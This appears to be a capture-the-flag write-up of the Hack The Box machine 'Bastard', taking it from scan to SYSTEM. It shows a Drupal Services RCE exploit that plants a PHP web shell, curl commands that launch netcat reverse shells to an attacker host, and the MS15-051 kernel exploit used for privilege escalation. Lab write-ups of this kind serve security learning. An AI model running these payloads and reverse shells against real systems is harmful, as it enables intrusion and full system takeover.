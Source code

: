 # Bastard

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.84.254
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 04:29 EDT
Nmap scan report for 10.129.84.254
Host is up (0.0072s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown
```

### Drupal

Port 80 was a Drupal Instance:

<figure><img src="../../../.gitbook/assets/image (2139).png" alt=""><figcaption></figcaption></figure>

This box is really old, the intended exploit is to use Drupal Module RCE. Here's the PoC:

{% embed url="https://www.exploit-db.com/exploits/41564" %}

We need to edit the top of the script to have the correct URL and endpoints accordingly:

```php
$url = 'http://10.129.84.254';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Then, we can run the exploit:

```
$ php exploit.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.129.84.254/test.php

$ curl -G --data-urlencode 'cmd=whoami' 'http://10.129.84.254/test.php'
nt authority\iusr
```

We now have RCE, and getting a reverse shell can be done through `nc.exe`.&#x20;

```
$ curl -G --data-urlencode 'cmd=\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444' 'http://10.129.84.254/test.php'
```

<figure><img src="../../../.gitbook/assets/image (2620).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation -> Kernel

This is a really old machine, so tehre's bound to be some Windows Kernel exploit that we can use.&#x20;

```
C:\Users\dimitris>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          30/4/2023, 11:27:25 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.559 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.578 MB
Virtual Memory: In Use:    517 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.84.254
```

`SeImpersonatePrivilege` is also enabled, making this an easy exploit. For this particular case, we can use MS15-051.&#x20;

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip" %}

When run, we can see that it works:

```
C:\Windows\Tasks>\\10.10.14.2\share\ms15-051x64.exe "whoami" 
\\10.10.14.2\share\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2268 created.
==============================
NT AUTHORITY\SYSTEM
```

We can run another reverse shell easily:

```
C:\Windows\Tasks>\\10.10.14.2\share\ms15-051x64.exe "\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444"
\\10.10.14.2\share\ms15-051x64.exe "\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2400 created.
```

<figure><img src="../../../.gitbook/assets/image (1696).png" alt=""><figcaption></figcaption></figure>

Rooted!
